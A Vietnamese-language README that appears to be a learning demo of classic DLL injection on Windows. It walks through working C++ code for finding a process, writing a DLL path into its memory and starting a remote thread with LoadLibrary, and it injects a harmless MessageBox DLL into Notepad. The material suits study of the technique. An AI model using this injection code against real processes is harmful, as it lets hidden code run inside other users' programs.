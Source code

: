 # Demo Classic Dll Injection

## [1] TỔNG QUAN
- Loại dll injection: `Classic LoadLibrary injection`.
- Dll được attach ở đây là 1 dll tự custom khá cơ bản, chỉ hiển thị MessageBox với dòng chữ bất kỳ.
- Hàm được gọi trong dll sẽ chạy ngay khi được attach vào tiến trình và hiển thị MessageBox.
- Lưu ý:
    - Chương trình cần chạy để attach dll là chương trình x64 nên dll cũng là dll x64 tương ứng.
    - Dll được attach thực thi 1 hàm ngay khi được nạp vào tiến trình, tức là case `DLL_PROCESS_ATTACH`

## [2] PHÂN TÍCH
Vì loại injection mình demo ở phần này là loại classic nên sẽ khá cơ bản. Các bước inject thực hiện lần lượt như sau:

- **Bước 1:** Tìm tiến trình cần inject, sử dụng `CreateToolhelp32Snapshot`

    ```C
    auto hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe{};
    pe.dwSize = sizeof PROCESSENTRY32;
    BOOL isProcessFound = FALSE;
    if (Process32First(hSnapshot, &pe) == FALSE) {
        CloseHandle(hSnapshot);
        cout << "[!] Unable to take first process snapshot\n";
        return FALSE;
    }
    if (_wcsicmp(pe.szExeFile, processname) == 0) {
        CloseHandle(hSnapshot);
        processId = pe.th32ProcessID;
        isProcessFound = TRUE;
    }
    while (Process32Next(hSnapshot, &pe)) {
        if (_wcsicmp(pe.szExeFile, processname) == 0) {
            cout << "[+] Closing handle to process snapshot\n";
            CloseHandle(hSnapshot);
            processId = pe.th32ProcessID;
            cout << "[+] Found Process\n";
            isProcessFound = TRUE;
        }
    }
    ```

- **Bước 2:** Copy đường dẫn của dll vào vùng nhớ của tiến trình

    ```C
    auto hVictimProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, processId);
    if (hVictimProcess == NULL) {
        cout << "[!] Failed to open process\n";
        return FALSE;
    }
    auto pNameInVictimProcess = VirtualAllocEx(hVictimProcess, nullptr, size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (pNameInVictimProcess == NULL) {
        cout << "[!] Allocation of memory failed!\n";
        return FALSE;
    }
    auto bStatus = WriteProcessMemory(hVictimProcess, pNameInVictimProcess, lpdllpath, size, nullptr);
    if (bStatus == 0) {
        cout << "[!] Failed to write memory to the process\n";
        return FALSE;
    }
    ```

- **Bước 3:** Lấy API `LoadLibraryW()` hoặc `LoadLibraryA()` từ `kernel32.dll`

    ```C
    auto hKernel32 = GetModuleHandle(L"kernel32.dll");
    if (hKernel32 == NULL) {
        cout << "[!] Unable to find Kernel32 in process!\n";
        return FALSE;
    }
    auto LoadLibraryAddress = GetProcAddress(hKernel32, "LoadLibraryW");
    if (LoadLibraryAddress == NULL) {
        if ((LoadLibraryAddress = GetProcAddress(hKernel32, "LoadLibraryA")) == NULL) {
            cout << "[!] LoadLibraryA failed as well!\n";
            return FALSE;
        }
    }
    ```

- **Bước 4:** Nạp dll vào tiến trình được cấp, lúc này, các hàm được gọi trong dll sẽ được thực thi

    ```C
    auto hThreadId = CreateRemoteThread(hVictimProcess, nullptr, 0, reinterpret_cast<LPTHREAD_START_ROUTINE>(LoadLibraryAddress), pNameInVictimProcess, NULL, nullptr);
    if (hThreadId == NULL) {
        cout << "[!] Failed to create remote process\n";
        return FALSE;
    }
    WaitForSingleObject(hThreadId, INFINITE);
    ```

- Để chương trình này hoạt động được, nó yêu cầu chạy chương trình với 2 tham số đầu vào là `target process` và `file dll`:
    
    ```
    Dll_Injection.exe <path/to/process_name> <path/to/dll>
    ```

- Nếu tất cả các bước trên thành công thì tiến trình mục tiêu sẽ bị inject dll và thực hiện các hành vi theo kịch bản của dll đó.

## [3] KẾT QUẢ KHI CHẠY CHƯƠNG TRÌNH
### [3.1] Chạy chương trình thử nghiệm
- Ở phần thử nghiệm này, mình sẽ demo attach dll vào tiến trình Notepad.exe.
- Trước tiên mình sẽ mở Notepad lên để nó có thể xuất hiện trong bảng tiến trình TaskManager.
- Tiếp theo mình chạy command `Dll_Injection.exe Notepad.exe basicdll.dll` rồi theo dõi.
- Kết quả:
    - Khi chạy xong command trên, 1 MessageBox hiện lên:

        ![alt text](../../images/dllinjection01.png)
    
    - Khi nhấn "OK", chương trình sẽ tiếp tục chạy nốt và thông báo log đã inject thành công:

        ![alt text](../../images/dllinjection02.png)

### [3.2] Kiểm tra sự hiện diện của dll
- Do chỉ chạy chương trình không như thế này, mình chỉ thấy nó hiện lên MessageBox như mình đã code mà không biết nó đã thực sự được inject vào như thế nào hay nó còn được attach vào tiến trình đó không nên mình sử dụng 1 công cụ theo dõi khá dễ dùng là `Process Hacker`.
- Công cụ này hiển thị chi tiết các tiến trình hơn so với Task Manager, nó có thể xem được các dll được load vào còn Task Manager thì không.
- Tại tiến trình `Notepad.exe`, mình chuột phải chọn `Properties` hoặc nhấn phím Enter.

    ![alt text](../../images/dllinjection03.png)

- Sau đó chọn tab `Modules` sẽ thấy các dll được load vào tiến trình này, và 1 trong số đó có dll mà mình đã cung cấp cho nó trong command.

    ![alt text](../../images/dllinjection04.png)

- Như vậy là dll này đã được load vào và tồn tại xuyên suốt quá trình mà tiến trình mục tiêu còn đang hoạt động. Ngược lại, khi tắt Notepad đi thì dll đó cũng sẽ được giải phóng.

## [4] PHỤ LỤC
- Code hoàn chỉnh: [main.cpp](Dll_Injection/main.cpp)
- Dll custom: [dllmain.cpp](../Code_To_Inject/Dll/basicdll/dllmain.cpp)
- Nguồn tham khảo: [DLL_Injection](https://github.com/rootm0s/Injectors/blob/master/InjectProc/InjectProc/injection.cpp#L56)
